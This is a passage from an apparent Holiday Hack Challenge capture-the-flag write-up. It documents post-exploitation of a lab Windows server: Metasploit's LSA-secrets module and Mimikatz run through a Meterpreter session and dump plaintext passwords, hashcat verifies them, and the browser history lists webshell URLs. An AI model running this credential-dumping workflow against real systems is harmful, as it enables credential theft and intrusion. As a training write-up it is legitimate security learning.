[*] Post module execution completed
#+END_SRC

We could try to crack some hashes, but there's an easier way. Let's check the LSA secrets:

#+BEGIN_SRC 
msf post(credential_collector) > use post/windows/gather/lsa_secrets
msf post(lsa_secrets) > info

       Name: Windows Enumerate LSA Secrets
     Module: post/windows/gather/lsa_secrets
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  Rob Bathurst <rob.bathurst@foundstone.com>

Compatible session types:
  Meterpreter

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION  1                yes       The session to run this module on.

Description:
  This module will attempt to enumerate the LSA Secrets keys within
  the registry. The registry value used is:
  HKEY_LOCAL_MACHINE\Security\Policy\Secrets\. Thanks goes to Maurizio
  Agazzini and Mubix for decrypt code from cachedump.

msf post(lsa_secrets) > run

[*] Executing module against HHC17-SMB-SERVE
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,2#B@:o~NY*#(1]`Vx

[+] Key: NL$KM
 Decrypted Value: @.tUb#=VQc_Y%&P1`gG;g1p0I)me& }Z/zXP`

[+] Key: _SC_agrabber
 Username: .\alabaster_snowball
 Decrypted Value: .Carried_mass_it_reader1

[*] Writing to loot...
[*] Data saved in: /home/holiday/.msf4/loot/20180109050031_default_10.142.0.8_registry.lsa.sec_967944.txt
[*] Post module execution completed
#+END_SRC

We can verify this with our hash, or via RDP: alabaster's password is
=Carried_mass_it_reader1=, which matches what we got before.

At this point, the system is pretty well compromised. We were unable to crack the sysadmin user's hash, or pivot from this system to other systems using our privileged access.

We did, however, find some neat things in the Firefox browsing history of the sysadmin user:

#+BEGIN_SRC 
'https://www.python.org/downloads/release/python-362/'
'https://www.google.com/search?q=non+sucky+servaice+manager&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://nssm.cc/release/nssm-2.24.zip'
'http://localhost/'
'https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx'
'http://localhost/test.aspx'
'https://stackoverflow.com/questions/4388066/the-page-you-are-requesting-cannot-be-served-because-of-the-extension-configura'
'https://www.google.com/search?q=how+to+use+aspnet_regiis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://www.google.com/search?q=aspnet_regiis+%3A+The+term+%27aspnet_regiis%27+is+not+recognized+as+the+name+of+a+cmdlet&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'http://exescan.net/exes/a/aspnet_regiis-exe-file'
'https://www.google.com/search?q=how+to+configure+asp+to+run+on+iis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/iis/application-frameworks/scenario-build-an-aspnet-website-on-iis/configuring-step-1-install-iis-and-asp-net-modules'
'https://www.google.com/search?q=enable+asp+on+windows+2016&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/biztalk/core/how-to-enable-asp-net-4-0-for-published-web-services'
'https://az764295.vo.msecnd.net/stable/dcee2202709a4f223185514b9275aa4229841aa7/VSCodeSetup-x64-1.18.0.exe'
'http://127.0.0.1/'
'http://127.0.0.1/evil.aspx'
'http://localhost/cmd.aspx'
'http://localhost/jerry.aspx'
'http://localhost/ok.txt'
#+END_SRC

* Update -- Cracking sysadmin's Password
After doing a bit more digging around on this after the submission
deadline had passed, we were able to crack sysadmin's password, thanks
to [[https://github.com/gentilkiwi/mimikatz][Mimikatz]].

Once we had our Meterpreter shell, running as the system user, we could upload Mimikatz, and have it dump some credentials:

#+BEGIN_SRC 
meterpreter > cd %temp%                                                                                                                                                                                                                                                                            │···············································
meterpreter > upload mimikatz.exe                                                                                                                                                                                                                                                                  │···············································
[*] uploading  : mimikatz.exe -> mimikatz.exe                                                                                                                                                                                                                                                      │···············································
[*] uploaded   : mimikatz.exe -> mimikatz.exe                                                                                                                                                                                                                                                      │···············································
meterpreter > shell                                                                                                                                                                                                                                                                                │···············································
Process 852 created.                                                                                                                                                                                                                                                                               │···············································
Channel 2 created.                                                                                                                                                                                                                                                                                 │···············································
Microsoft Windows [Version 10.0.14393]                                                                                                                                                                                                                                                             │···············································
(c) 2016 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                               │···············································
                                                                                                                                                                                                                                                                                                   │···············································
C:\Windows\TEMP>mimikatz                                                                                                                                                                                                                                                                           │···············································
mimikatz                                                                                                                                                                                                                                                                                           │···············································
                                                                                                                                                                                                                                                                                                   │···············································
  .#####.   mimikatz 2.1.1 (x64) built on Nov  6 2017 03:34:10                                                                                                                                                                                                                                     │···············································
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                                                                                                                                                                        │···············································
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                                                                                                                                                                           │···············································
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                                                                                                                                                                             │···············································
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                                                                                                                                                                          │···············································
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                                          │···············································
                                                                                                                                                                                                                                                                                                   │···············································
mimikatz # vault::cred /patch                                                                                                                                                                                                                                                                      │···············································
TargetName : Domain:batch=TaskScheduler:Task:{B7934FDF-0D61-4B73-89D2-85301C3C3261} / <NULL>                                                                                                                                                                                                       │···············································
UserName   : HHC17-SMB-SERVE\sysadmin                                                                                                                                                                                                                                                              │···············································
Comment    : <NULL>                                                                                                                                                                                                                                                                                │···············································
Type       : 2 - domain_password                                                                                                                                                                                                                                                                   │···············································
Persist    : 2 - local_machine                                                                                                                                                                                                                                                                     │···············································
Flags      : 00004004                                                                                                                                                                                                                                                                              │···············································
Credential : #9tsTizMj#TZgTQ                                                                                                                                                                                                                                                                       │···············································
Attributes : 0                                                                                                                                                                                                                                                                                     │···············································
                                                                                                                                                                                                                                                                                                   │···············································
TargetName : WindowsLive:target=virtualapp/didlogical / <NULL>                                                                                                                                                                                                                                     │···············································
UserName   : 02corgxfsbee                                                                                                                                                                                                                                                                          │···············································
Comment    : PersistedCredential                                                                                                                                                                                                                                                                   │···············································
Type       : 1 - generic                                                                                                                                                                                                                                                                           │···············································
Persist    : 2 - local_machine                                                                                                                                                                                                                                                                     │···············································
Flags      : 00000000                                                                                                                                                                                                                                                                              │···············································
Credential :                                                                                                                                                                                                                                                                                       │···············································
Attributes : 32
#+END_SRC

Mimikatz was able to pull out sysadmin's decrypted password, from a scheduled task. We can use Hashcat to verify this password:

#+BEGIN_SRC 
echo "#9tsTizMj#TZgTQ" | hashcat -a 0 -m 1000 -w 3 emi.hashes
hashcat (v4.0.1) starting...

...

Starting attack in stdin mode...

27309e9a73764938860b4a1ed7c0392b:#9tsTizMj#TZgTQ
#+END_SRC

However, we still couldn't use this password to move laterally to
other systems. But with this credential, we were able to crack all the
passwords we found, except for the password all the reindeer LDAP
accounts were set to.
